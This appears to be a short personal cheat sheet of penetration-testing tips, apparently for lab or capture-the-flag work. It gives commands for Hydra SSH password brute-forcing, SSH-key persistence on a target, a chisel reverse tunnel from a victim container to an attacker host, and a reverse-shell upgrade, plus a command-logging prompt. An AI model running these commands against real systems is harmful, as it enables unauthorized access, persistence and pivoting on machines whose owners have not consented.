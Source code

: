 ```yaml
---
title: Tips
author: asphixie
date: 2023-03-10 14:10:00 +0800
categories: [Various, Tips]
comments: false
---
```


# Tips
## Bruteforce SSH
Use Hydra :
```bash
hydra -l 'USERNAME' -P FILE_CONTAINING_PASSWORDS -M FILE_CONTAINING_IP_TO_BRUTEFORCE -t 4 ssh
```
## Persistance
Generate SSH key :
```bash
ssh-keygen -t rsa
```
Paste it to authorized_keys :
```bash
echo XXXX >> ~/.ssh/authorized_keys
```
Then, put the file on the target machine.
## Port Forwarding
### Using SSH
To access a locally exposed service on a remote machine :
```bash
ssh -L YOUR_PORT:localhost:PORT_EXPOSED USERNAME@IP_ADDRESS
```
### Using chisel
To redirect a port (here, 3000) when you're in a docker for example (victim = 172.17.0.1 and your host = 10.10.16.8). Firstly, run a chisel server on your host :
```bash
./chisel server -p 5555 --reverse
```
Then, on the docker, redirect to your host from the victim machine :
```bash
./chisel client 10.10.16.8:5555 R:8890:172.17.0.1:3000
```
Then you can access the service with http://localhost:8890/.
## Get a proper shell on reverse shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Logs all your commands
In order to keep all the commands you've used, paste this at the end of your .zshrc file (located in home) :
```bash
PS1=$'[`date  +"%d-%b-%y %T"`]%{\033[01;31m%} `ifconfig eth0 2>/dev/null | sed -n 2,2p | cut -d" " -f 10`%{\033[00m%} %{\033[01;34m%}%c%{\033[00m%} > '
test "$(ps -ocommand= -p $PPID | awk '{print $1}')" == 'script' || (script -f $HOME/.log/$(date +"%d-%b-%y_%H-%M-%S")_shell.log)
```
You can then just cat logs on a terminal, it will print it out pretty well.
